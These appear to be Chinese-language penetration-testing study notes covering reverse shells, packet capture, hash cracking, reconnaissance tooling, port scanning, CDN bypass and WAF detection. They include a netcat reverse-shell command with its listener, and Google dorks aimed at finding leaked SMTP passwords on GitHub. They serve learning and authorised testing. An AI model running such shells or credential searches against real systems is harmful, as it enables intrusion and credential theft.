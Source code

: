 # 文件下载，反弹shell

文件上传nc.exe

文件下载使用棱角

```
nc -e cmd 192.168.204.1 5566 将cmd控制台反弹到该ip下的5566端口
```

nc -lvvp 5566  监听5566端口

2.Web应用基础

# 抓包和封包

#模拟器抓包

设置模拟器WIFI代理为主机ip,端口为抓取的端口

CCProxy

## 小程序，桌面应用

Proxifier将应用走专属代理，对专属代理进行抓包

## 抓包协议区别工具

bp只能抓到http/s

Wireshark,科来 全局协议抓包，可以抓到tcp,udp

# 加密

## MD5加密

[md5在线解密破解,md5解密加密 (cmd5.com)](https://www.cmd5.com/)

## Discuz加密

md5(md5('字符串').'salt') 存在salt字符串

# 信息收集

## 自动化工具

### 搜索引擎

Fofa&Quake&Shodan&Zoomeye

### 自动化项目

ARL灯塔

Kunyu

Suize水泽

Finger

### 单点项目

棱角社区

## 语言&中间件&数据库&系统

## 子域名&相似域名&反查域名

## 搜索关键字

GITHUB资源搜索：

in:name test        #仓库标题搜索含有关键字 

in:descripton test     #仓库描述搜索含有关键字 

in:readme test       #Readme文件搜素含有关键字 

stars:>3000 test      #stars数量大于3000的搜索关键字 

stars:1000..3000 test    #stars数量大于1000小于3000的搜索关键字 forks:>1000 test      #forks数量大于1000的搜索关键字 

forks:1000..3000 test    #forks数量大于1000小于3000的搜索关键字 size:>=5000 test      #指定仓库大于5000k(5M)的搜索关键字 pushed:>2019-02-12 test   #发布时间大于2019-02-12的搜索关键字 created:>2019-02-12 test  #创建时间大于2019-02-12的搜索关键字 user:test          #用户名搜素 

license:apache-2.0 test   #明确仓库的 LICENSE 搜索关键字 language:java test     #在java语言的代码中搜索关键字 

user:test in:name test   #组合搜索,用户名test的标题含有test的

关键字配合谷歌搜索：

site:Github.com smtp  

site:Github.com smtp @qq.com  

site:Github.com smtp @126.com  

site:Github.com smtp @163.com  

site:Github.com smtp @sina.com.cn 

site:Github.com smtp password 

site:Github.com String password smtp

## 端口扫描

nmap

> -Pn 扫描端口
>
> -osscan-list操作系统
>
> -sV 扫描方式

masscan  

> masscan -p1-65535 ip地址
>
> masscan -p80,31,3306,8000 ip地址

### CDN（加速访问）

**作用**：不同地区使用不同的节点访问，为了加速访问

**判断**使用超级ping检查是否存在CDN。检查不同地区访问时ip是否相同

**绕过**（查询真实ip）：

- 漏洞：利用漏洞访问服务器资源，例如SSRF访问服务器资源

- 国外请求：无法访问的地点访问该服务器会直接显示ip，可以访问的地点会显示域名

- 全网扫描：funkcdn

  > 设置域名,设置域名中包含的文字
  >
  > 设置可能的网段

- 查看邮件:邮件一般不会通过cdn加速,可以让对方主动发送邮件(找回密码),查看邮件源代码即可,
- get-site-ip.com网站直接查询

### WAF

wafwoof



> 在wafw00f下使用python main.py url 识别防火墙

### 负载均衡

使用方法：lab url

### 网段资产

旁注：统一服务器下有多个WEB应用，可以分析其他应用

C段：同网段下有多个不同服务器的WEB应用，

> 查询1-255之间的所有协议  
>
> masscan -p80,3306,21 47.75.212.0/24 查询整个网段

## APP/小程序

### 内在

#### 反编译-安卓修改大师

#### 提取资源-黑暗引擎

### 外在

#### 抓包

#### 封包

#### 功能

### 加固夹壳

#### xp框架

#### frida




